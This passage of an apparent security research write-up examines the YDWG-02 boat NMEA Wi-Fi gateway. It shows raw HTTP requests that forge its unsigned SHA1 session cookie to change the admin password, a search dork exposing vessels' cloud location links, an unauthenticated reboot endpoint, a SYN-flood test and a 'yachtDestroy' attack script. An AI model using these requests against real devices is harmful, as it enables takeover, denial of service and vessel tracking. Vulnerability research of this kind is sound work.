This means that we can easily spin up wireshark, and capture the traffic in the public McDonald's wifi (given the device is setup in client mode), and see the credentials in cleartext. This means the YDWG-02 essentially acts as the MiTM for us to sniff the credentials of other protected networks.

#### Cloud Application

The device can also be configured to send data to a cloud service, which is thought to be unencrypted, and can be intercepted by an attacker on the same network. The cloud service was not tested, and out of the scope for this project, but it is worth mentioning that, from the manufacturer's documentation, that a "secret" link can be created. This link is encrypted, but for example, as simple google search for `"site:cloud.yachtd.com/s/"` gives us access to secret links that expose locations of vessels, and other sensitive information. This could be considered a violation of IDOR (Insecure Direct Object Reference), as the user can access other users' data, and potentially spoof their location.

Nonetheless, the key that is used to for boats on the cloud service is also sent in cleartext, and can be intercepted by an attacker on the same network.

```http
POST /settings/upd_ul?1=1&interval=300&priority=0&dataset=7&range=0&key=Bank$Catamaran^Ghosting^Wash$Lookout*SoX HTTP/1.1
Host: 192.168.10.71
Content-Length: 0
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.10.71
Referer: http://192.168.10.71/logging.html
Accept-Encoding: gzip, deflate, br
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
Connection: keep-alive
```
which is handled by the following JavaScript:
```javascript
function setSettings(e,url) {
    e.preventDefault();
    var i, inputs = document.querySelectorAll("#" + e.target.id + " input,select");
    for (i = 0; i < inputs.length; i++) {
        if (inputs[i].type === "checkbox") {
            var val = (inputs[i].checked) ? 1 : 0;
            url += "&" + inputs[i].id + "=" + val;
        }
	else if (inputs[i].type === "text")
	{
  	    url += "&" + inputs[i].id + "=" + inputs[i].value.trim();
	}
        else
            url += "&" + inputs[i].id + "=" + inputs[i].value;
    };

    hideWarning();
    var n = e.target.id.replace("-form", "");
    var cb = $("#" + n + "-button");
    addClass(cb, "pure-button-disabled");
    ajaxSpin("POST", url, function (resp) {
        showNotification(n + " settings was updated");
        removeClass(cb, "pure-button-disabled");
    }, function (s, st) {
        showWarning("Error: " + st);
        removeClass(cb, "pure-button-disabled");
        window.setTimeout(fetchSettings, 100);
    });
}

function setULSettings(e) {
    var url = "/settings/upd_ul?1=1";
    setSettings(e,url);
    fetchSettings();	
}
```

The following could be used to exfiltrate data from a YDWG-02, or possibly inject data:

```
POST /nmea_settings/update?1=1&ns_enabled0=1&ns_type0=0&ns_protocol0=0&ns_port0=1456&ns_direction0=1&ns_enabled1=0&ns_type1=1&ns_protocol1=1&ns_port1=1457&ns_direction1=3&ns_enabled2=1&ns_type2=0&ns_protocol2=2&ns_port2=1458&ns_direction2=1 HTTP/1.1
Host: 192.168.4.1
Content-Length: 0
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.4.1
Referer: http://192.168.4.1/servers.html
Accept-Encoding: gzip, deflate, br
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
Connection: keep-alive

```

```
GET /settings/logging HTTP/1.1
Host: 192.168.235.25
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://192.168.235.25/logging.html
Accept-Encoding: gzip, deflate, br
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
Connection: keep-alive
```
and
```
HTTP/1.0 200 OK
Server: YDWG
Connection: close
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
Content-Type: application/json

{ "interval": "300", "points" : 16256, "priority" : 0, "dataset" : 7, "distance" : "true", "range" : 0, "key" : "Prolonged_blast$Pilot_boat*Fix~R2ushnLqH", "status" : "2025-05-02 20:42:19 Data uploaded (last point GMT 2024-12-19 21:58:00)", "has_points" : "false"}
```
paired with
```
GET /version HTTP/1.1
Host: 192.168.235.25
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://192.168.235.25/flash.html
Accept-Encoding: gzip, deflate, br
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
Connection: keep-alive
```
and
```
HTTP/1.0 200 OK
Server: YDWG
Connection: close
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
Content-Type: application/json

{ "version": "1.74", "sn": "00604470", "hardware": "1.00", "build": "43" }
```

The [API vulnerabilities](#2223-api-vulnerabilities) section goes further into this.

### 2.3.2 OWASP ZAP

The OWASP ZAP tool was also used to scan the web application for vulnerabilities. The following vulnerabilities were found after performing [the scan](./assets/web/2025-05-02-ZAP-Report-.html):

#### 2.2.2.1 XSS Vulnerability



Which actually also performs as a sort of DoS attack, since the Javascript shown below, actually continually loops when the user is logging in from the /login.html page.

```javascript
function login(e){
	e.preventDefault();
    var url = "/login?1=1";

    url += "&login=" + $("#login").value.trim().toLowerCase();
    url += "&password=" + $("#password").value.trim();
    var r = findGetParameter("r");    

    var button = $("#login-button");
    addClass(button, "pure-button-disabled");

    ajaxReq("POST", url, function (resp) {
        removeClass(button, "pure-button-disabled");
        if(r !== null)
        	window.location = r
        else
        	window.location = "/home.html"
    }, function (s, st) {
        showWarning("Invalid credentials");
        removeClass(button, "pure-button-disabled");
    });
}
```

#### 2.2.2.2 Clickjacking Vulnerability



This screenshot is simply [an iframe](assets/web/clickjacked.html).

#### 2.2.2.3 API Vulnerabilities

A copy of the APIs exposed, or at least most of them, are base64 encoded in an XML file [here](./assets/web/site-map).

One noteable API, is the `/flash/reboot` endpoint, which allows us to reboot the device, and is **not authenticated**. This means that any attacker on the same network can reboot the device, and potentially cause a denial of service attack.

strings also gives us a list of the endpoints that are available on the device:

```
/login
/menu
/version
/serial/setserial
/filters/getfilters
/filters/setfilter
/admin/changepassword
/flash/upload
/flash/reboot
/flash/lasterror
/websocket/nmea.cgi
/wifi/info
/wifi/scan
/wifi/connect
/wifi/connstatus
/wifi/setmode
/wifi/special
/wifi/apinfo
/wifi/apchange
/system/info
/system/update
/system/rundiag
/cloud/reset
/system/memory
/nmea_settings/settings
/nmea_settings/update
/settings/settings
/nmea_settings/ydap
/settings/update
/settings/upd_ti
/settings/upd_xdr
/settings/logging
/settings/upd_ul
/settings/upd_dl
/settings/upd_li
/settings/run_calibration
/home.html
/client.html
/point.html
/server.html
/admin.html
/flash.html
/setsn.html
/filters.html
```

### Cookie Injection

The cookies used by the device are not signed, and are used to authenticate the user. This means that we can easily inject a cookie into the request, and gain access to the device. This is just another way we can bypass the authentication, given the use of hashcat to crack the SHA1 hashed password.

```
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
```
So we inject it into the request, and see if we can get a response:

```
POST /admin/changepassword?1=1&password=admin HTTP/1.1
Host: 192.168.10.71
Content-Length: 0
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.10.71
Referer: http://192.168.10.71/admin.html
Accept-Encoding: gzip, deflate, br
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
Connection: keep-alive
```
and we get a 200 OK response, which means that the cookie is valid, and we can use it to perform actions on the device, like changing the admin password:
```
HTTP/1.0 204 OK
Server: YDWG
Connection: close
Set-Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997; path=/; expires=Tue, 7 Apr 2038 12:25:11; 
```
https://shattered.io/ --> this could be succeptible to a hash collision attack, since the cookie is not signed, and the device is using SHA1 (not secure in 2025).

To prove the cookie is the password as a sha1 hash, we can use the following command:
```bash
 echo -n "admin" | sha1sum

d033e22ae348aeb5660fc2140aec35850c4da997  -
```





The password can be seen here as well. 

## 2.4 TCP connection exaustion attacks (SYN flood)

Since the default port is left on as 1456 for NMEA 0183 and 80 for the HTTP, the effects of a TCP flood attack were also tested. The device was not able to effectively prevent either ports as shown below.



> Note: the tcp syn flood of port 80 on the yacht device isn't shown because hping3 takes processing power, and it would be unfair to perform both simultaniously. It is still considered a vulnerability; however, as this could prevent yacht owners, regatta racers, etc., to access crucial data.

## 2.5 Web Sockets

Web seockets are enabled by default:



The Sec-WebSocket-Key
`258EAFA5-E914-47DA-95CA-C5AB0DC85B11` is hardcoded and used to authenticate the connection, and is not encrypted. This means that any attacker on the same network can easily MiTM the connection, and gain access to the data being sent over the web socket.

## 2.5 Hashcat

TODO: show hashcat cracking the password.

# 3. Lateral Movement TODO

To automate these processes, a script was created to check for the AP static IP address (192.168.4.1), or the user can manually enter the IP address of the device. If the device is in AP mode, it tries to connect to the AP with the default password (123456578), otherwise it performs a deuath and tries to crack the hash. Once the script has entered the same network as the device, it scans for ports. If port 80 is active, it tries to authenticate with the web application using the default credentials (admin:admin). If the default port 1456 is active, it sends messages shown in the nmea0183-demo.sh script. If any other ports are found open (given a use supplied range to check via nmap), the script then listens for valid NMEA 2K, or 0183 traffic (these can be bidirectionally set up; hence they are targeted). Then, if the default credentials do not work, it sets up a listner on the linux device to capture the traffic. If it detects passwords, or other key words, it will alert the user. 

There are four modes of operation for the script:
```bash
./yachtDestroy --deauth
./yachtDestroy --deny
./yachtDestroy --inject
./yachtDestroy --enumerate
```

It is recommend to run the deauth script first. 

# 4. What makes this dangerous?

TODO

# FAQ

## 1. I want to test this on my own, but the scripts are not working for me.

Try:

```
dos2unix <script_name>
```

Unfortunately, the scripts were written on both linux and windows machines, and git auto converts them.